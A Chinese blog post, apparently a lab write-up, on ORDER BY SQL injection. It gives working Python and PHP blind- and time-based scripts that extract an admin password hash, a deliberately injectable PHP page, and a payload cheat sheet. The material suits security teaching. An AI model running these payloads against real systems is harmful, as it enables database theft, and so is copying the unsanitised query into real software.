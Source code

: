 ```yaml
---
title: order by injection
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


 本地搭建测试系统进行注入实践，包含php网页脚本、mysql数据库脚本、python爆破脚本。
 
{% raw %}
<pre>
order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
字段2处替换为： IF(1,bananas,cherries) 或 (case when 1 then bananas else cherries end)
ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
</pre>
{% endraw %}

python爆破脚本，用到了requests模块，必须在linux下运行。
{% highlight python %}
#版本1 CASE WHEN
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:  
        payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                 THEN username ELSE password END) --" %(i, c)
        res = requests.get(url+payload)
        if "21</td><td>System" in res.text:
            AdminHash+=c
            break
print AdminHash  #e10adc3949ba59abbe56e057f20f894e

#版本2 IF
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:                 
        payload="?by=IF(SUBSTR((SELECT password from fruits WHERE username  +\
                =CHAR(65,100,109,105,110)),%d,1)=char(%d),username,password) LIMIT 2--" %(i,ord(c))             
        res = requests.get(url+payload)
        if "2</td><td>Admin" in res.text:
            AdminHash+=c
            break
print AdminHash

#版本3  time injection
#by=()
#select 1 from ()b
#select * from fruits where username='Admin' and if(condtion,sleep(0.5),0)
#upper(substring(password,%d,1))=char(%d)
import requests,string,time
charset = 'ABCDEF'+string.digits 
AdminHash=''
url = 'http://192.168.1.100/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:                 
        payload="?by=(select 1 from (select * from fruits where username='Admin' +\
                 and if(upper(substring(password,%d,1))=char(%d),sleep(0.5),0))b)" %(i,ord(c))
        timeStart = time.time()  
        res = requests.get(url+payload)
        timeEnd = time.time()
        seconds = timeEnd - timeStart
        if seconds>0.2:
            AdminHash+=c
            print AdminHash
            break
print AdminHash
{% endhighlight %}

php爆破脚本：
{% highlight php %}
<?php
$md5 = '';
$foo = array('0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f');
for($i=1; $i <= 32; $i++)
{
        foreach($foo as $s)
        {
           $s = ord($s);                
           $res = system("wget -O - 'http://192.168.1.100/DebugPHP/3.php?by=IF(SUBSTR((SELECT password from fruits WHERE username=CHAR(65,100,109,105,110)),{$i},1)=CHAR({$s}),username,password) LIMIT 2--' 2>/dev/null | grep Admin");
                if('' != $res)
                {
                    $md5 .= chr($s);
                    break; 
                 }
        }
}
echo "===$md5===";
?>
{% endhighlight %}


php本地注入测试脚本
{% highlight php %}
<?php
function mysql_fetch_all($result)
{
	$rows=array();
	while($row=mysql_fetch_array($result)){
		array_push($rows,$row);
	}
	return $rows;
}
$host = '192.168.1.103';
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$tbname = "fruits";

$con = mysql_connect($host,$dbuser,$dbpass);
if (!$con) echo "Failed to connect to MySQL: " . mysql_error();
mysql_select_db($dbname,$con) or die ( "Unable to connect to the table: $dbname".mysql_error());

$orderby=$_GET['by'];
$sql="SELECT * FROM fruits ORDER BY $orderby LIMIT 10";
$result = mysql_query($sql);
$rows=mysql_fetch_all($result);
 
echo '<table>'.PHP_EOL;
$i = 1;
foreach ($rows as $row)     
{
	//print_r($row);
	echo sprintf('<tr>');
	echo sprintf('<td align="left">%d</td>', $i++);
	echo sprintf('<td>%s</td>', $row['username']);
	echo sprintf('<td>%s</td>', $row['apples']);
	echo sprintf('<td>%s</td>', $row['bananas']);
	echo sprintf('<td>%s</td></tr>', $row['cherries']);
}
echo '</table>'.PHP_EOL;
mysql_close($con);
?>
{% endhighlight %}

mysql数据库脚本
{% raw %}
<pre>
mysql> show databases;
mysql> source /root/Desktop/junk2/test.sql 导入数据
mysql> show tables;
mysql> desc fruits;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| username | varchar(32)      | NO   | PRI |         |       |
| password | char(32)         | YES  |     | NULL    |       |
| apples   | int(10) unsigned | YES  |     | 0       |       |
| bananas  | int(10) unsigned | YES  |     | 0       |       |
| cherries | int(10) unsigned | YES  |     | 0       |       |
+----------+------------------+------+-----+---------+-------+

/*test.sql script*/
use security;
CREATE TABLE IF NOT EXISTS fruits(
username VARCHAR(32) CHARACTER SET ascii COLLATE ascii_general_ci,
password CHAR(32) CHARACTER SET ascii COLLATE ascii_bin,
apples   INT(10) UNSIGNED DEFAULT 0,
bananas  INT(10) UNSIGNED DEFAULT 0,
cherries INT(10) UNSIGNED DEFAULT 0,PRIMARY KEY(username)
);
insert into fruits values ('Horst1','e10adc3949ba59abbe56e057f20f883e',1,1,1);
insert into fruits values ('Harald1','e10adc3949ba59abbe56e057f20f884e',1,1,1);
insert into fruits values ('Horst','e10adc3949ba59abbe56e057f20f885e',1,5,3);
insert into fruits values ('Peter1','e10adc3949ba59abbe56e057f20f886e',1,1,1);
insert into fruits values ('Harald2','e10adc3949ba59abbe56e057f20f887e',2,2,2);
insert into fruits values ('Horst2','e10adc3949ba59abbe56e057f20f888e',2,2,2);
insert into fruits values ('Peter2','e10adc3949ba59abbe56e057f20f889e',2,2,2);
insert into fruits values ('Peter','e10adc3949ba59abbe56e057f20f890e',2,3,5);
insert into fruits values ('Aaron','e10adc3949ba59abbe56e057f20f891e',2,3,4);
insert into fruits values ('Peter3','e10adc3949ba59abbe56e057f20f892e',3,3,3);
insert into fruits values ('Harald3','e10adc3949ba59abbe56e057f20f893e',3,3,3);
insert into fruits values ('Admin','e10adc3949ba59abbe56e057f20f894e',3,2,4);
insert into fruits values ('Horst3','e10adc3949ba59abbe56e057f20f895e',3,3,3);
insert into fruits values ('Horst4','e10adc3949ba59abbe56e057f20f896e',4,4,4);
insert into fruits values ('Harald4','e10adc3949ba59abbe56e057f20f897e',4,4,4);
insert into fruits values ('Peter4','e10adc3949ba59abbe56e057f20f898e',4,4,4);
insert into fruits values ('Harald','e10adc3949ba59abbe56e057f20f899e',4,4,1);
insert into fruits values ('System','e10adc3949ba59abbe56e057f20f900e',5,1,2);
insert into fruits values ('Horst5','e10adc3949ba59abbe56e057f20f901e',5,5,5);
insert into fruits values ('Peter5','e10adc3949ba59abbe56e057f20f902e',5,5,5);
insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
</pre>
{% endraw %}


其他注入知识点：
{% raw %}
<pre>
''=(payload)=''
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "

select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
//Duplicate entry 'security1' for key 'group_key'

//update爆其他表的数据
update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

// order by 第二关键字注入
order by apples,IF(1,bananas,cherries) desc
order by apples,(case when 1 then bananas else cherries end) desc

order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),1,16)));
//XPATH syntax error: ':e10adc3949ba59ab'  爆出前16位
order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),17,16)));
//XPATH syntax error: ':be56e057f20f894e'  爆出后16位

select * from fruits order by extractvalue(0,concat(0x3a,(select password from users where username='Dummy')));
//XPATH syntax error: ':p@ssword' 可以爆出其他表中的字段值

select 1 from (select * from fruits where username='Admin' and if(upper(substring(password,1,1))='E',sleep(1),0))b; 
//Empty set (1.00 sec)  时间注入


mysql常用命令：
select hex('Admin');  /*41646D696E*/
select concat(0x41646d696e);  /*Admin*/

Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
</pre>
{% endraw %}

经典文章：

[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
